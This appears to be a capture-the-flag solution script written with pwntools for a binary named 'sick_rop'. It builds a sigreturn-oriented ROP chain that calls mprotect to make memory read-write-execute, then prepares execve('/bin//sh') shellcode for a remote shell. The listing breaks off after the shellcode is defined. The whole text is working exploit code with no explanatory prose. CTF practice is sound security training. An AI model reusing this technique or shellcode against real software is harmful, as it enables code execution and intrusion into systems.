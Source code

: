 > SCRIPT

```py
from pwn import *
import os
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './sick_rop'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

sh = start()
# pause()
rop = ROP(elf)
syscall = rop.find_gadget(['syscall', 'ret'])[0]
info(f'SYSCALL GADGET --> {hex(syscall)}')

vuln_pointer = 0x4010d8
writeable_area = 0x400000

frame = SigreturnFrame() # adding kernel="amd64" as arg is optional
frame.rax = 0xa #10 --> mprotect
frame.rdi = writeable_area
frame.rsi = 0x400000 # set size
frame.rdx = 0x7 #7 --> initialize rwx access to what's rdi pointing to

# because we're changing the stack frame
# keep in mind --> calling the vuln function directly, won't get us to that function
frame.rsp = vuln_pointer 
frame.rip = syscall

## 1st payload
p = flat([
    asm('nop') * 40,
    elf.sym['vuln'],
    syscall,
    bytes(frame)
])

sh.sendline(p)
get = sh.recv()
print('recv 1 -->', get)
# ## 2nd payload, triggering the sigreturn signal to activate the 1st payload | sys_rt_sigreturn

# junk = b'A' * 15 # if using .send()
# sh.send(junk)

# 0xf --> 15
junk = b'A' * 14
sh.sendline(junk)
# get = sh.recv()
# print('recv 2 -->', get)

# ## 3rd payload, RCE moment
shellcode = (b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05')
# print(len(shellcode)) # --> 22

```